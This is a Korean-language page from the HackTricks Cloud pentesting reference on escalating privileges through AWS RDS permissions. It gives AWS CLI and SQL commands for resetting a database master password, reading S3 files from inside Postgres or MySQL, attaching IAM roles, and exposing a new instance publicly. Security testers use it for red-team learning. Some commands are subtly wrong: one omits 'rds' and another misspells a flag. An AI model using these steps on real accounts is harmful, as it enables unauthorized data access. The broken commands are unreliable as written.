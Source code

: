 # AWS - RDS 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## RDS - 관계형 데이터베이스 서비스

RDS에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

이 권한을 가진 공격자는 **마스터 사용자의 비밀번호를 수정**하고 데이터베이스 내부에서 로그인할 수 있습니다:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
데이터베이스에 **연락할 수 있는** 권한이 필요합니다(일반적으로 내부 네트워크에서만 접근 가능합니다).
{% endhint %}

**잠재적인 영향:** 데이터베이스 내부에서 민감한 정보를 찾을 수 있습니다.

### rds-db:connect

[**문서**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)에 따르면 이 권한을 가진 사용자는 DB 인스턴스에 연결할 수 있습니다.

### RDS 역할 IAM 권한 남용

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`**를 실행하여 **`rdsadmin`**이라는 데이터베이스를 찾으면 **AWS postgresql 데이터베이스**에 접속한 것을 알 수 있습니다.
{% endhint %}

먼저 이 데이터베이스가 다른 AWS 서비스에 액세스하는 데 사용되었는지 확인할 수 있습니다. 설치된 확장 기능을 확인하여 이를 확인할 수 있습니다:
```sql
SELECT * FROM pg_extension;
```
만약 **`aws_s3`**와 같은 것을 찾으면 이 데이터베이스가 **S3에 대한 어떤 종류의 액세스**를 가지고 있다고 가정할 수 있습니다(다른 확장자로는 **`aws_ml`**과 **`aws_lambda`**이 있습니다).

또한, **`aws rds describe-db-clusters`**를 실행할 권한이 있다면 **`AssociatedRoles`** 필드에서 **클러스터에 연결된 IAM 역할**을 확인할 수 있습니다. 만약 있다면, 데이터베이스가 **다른 AWS 서비스에 액세스할 수 있도록 준비**된 것으로 가정할 수 있습니다. **역할의 이름**을 기반으로 (또는 역할의 **권한**을 얻을 수 있다면) 데이터베이스가 어떤 추가 액세스를 가지고 있는지 **추측**할 수 있습니다.

이제, **버킷 내의 파일을 읽으려면** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
만약 **AWS 원시 자격 증명**을 가지고 있다면, 다음과 같이 사용하여 S3 데이터에 액세스할 수도 있습니다:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql는 S3에 액세스하기 위해 어떤 매개변수 그룹 변수도 변경할 필요가 없습니다.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
mysql 내에서 쿼리 **`SELECT User, Host FROM mysql.user;`**를 실행하고 **`rdsadmin`**이라는 사용자가 있다면, **AWS RDS mysql db**에 있다고 가정할 수 있습니다.
{% endhint %}

mysql 내에서 **`show variables;`**를 실행하고, **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**과 같은 변수에 값이 있다면, 데이터베이스가 S3 데이터에 액세스할 준비가 되어 있다고 가정할 수 있습니다.

또한, **`aws rds describe-db-clusters`**를 실행할 권한이 있다면, 클러스터에 **연관된 역할**이 있는지 확인할 수 있습니다. 이는 일반적으로 AWS 서비스에 대한 액세스를 의미합니다).

이제, **버킷 내의 파일을 읽기** 위해서는 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster`와 `iam:PassRole` 권한을 가진 공격자는 **기존 RDS 인스턴스에 지정된 역할을 추가**할 수 있습니다. 이로 인해 공격자는 인스턴스 내의 **민감한 데이터에 접근**하거나 데이터를 수정할 수 있을 수 있습니다.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 무단 수정.\
일부 DB는 추가 구성이 필요할 수 있으며, 예를 들어 Mysql은 파라미터 그룹에서 역할 ARN을 지정해야 합니다.

### `rds:CreateDBInstance`

이 권한만으로도 공격자는 이미 존재하는 클러스터 내에 **새로운 인스턴스를 생성**하고 **IAM 역할**을 연결할 수 있습니다. 그러나 공격자는 마스터 사용자 암호를 변경할 수는 없지만, 새로운 데이터베이스 인스턴스를 인터넷에 노출시킬 수도 있습니다:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: 테스트
{% endhint %}

`rds:CreateDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **지정된 역할이 연결된 새로운 RDS 인스턴스를 생성**할 수 있습니다. 공격자는 그런 다음 인스턴스 내의 **민감한 데이터에 접근**하거나 데이터를 수정할 수 있습니다.

{% hint style="warning" %}
연결할 역할/인스턴스 프로필의 일부 요구 사항([**여기**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)에서):

* 프로필은 귀하의 계정에 존재해야 합니다.
* 프로필은 Amazon EC2가 가정할 수 있는 IAM 역할을 가져야 합니다.
* 인스턴스 프로필 이름과 연결된 IAM 역할 이름은 `AWSRDSCustom` 접두사로 시작해야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**잠재적인 영향**: RDS 인스턴스의 민감한 데이터에 대한 액세스 또는 무단 수정.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **지정된 역할을 기존 RDS 인스턴스에 추가**할 수 있습니다. 이를 통해 공격자는 인스턴스 내의 **민감한 데이터에 액세스**하거나 데이터를 수정할 수 있을 수 있습니다.

{% hint style="warning" %}
이 작업은 클러스터 외부에 있는 DB 인스턴스에서만 수행할 수 있습니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**잠재적인 영향**: RDS 인스턴스의 중요한 데이터에 대한 액세스 또는 무단 수정.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* 회사를 **HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family)인 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>
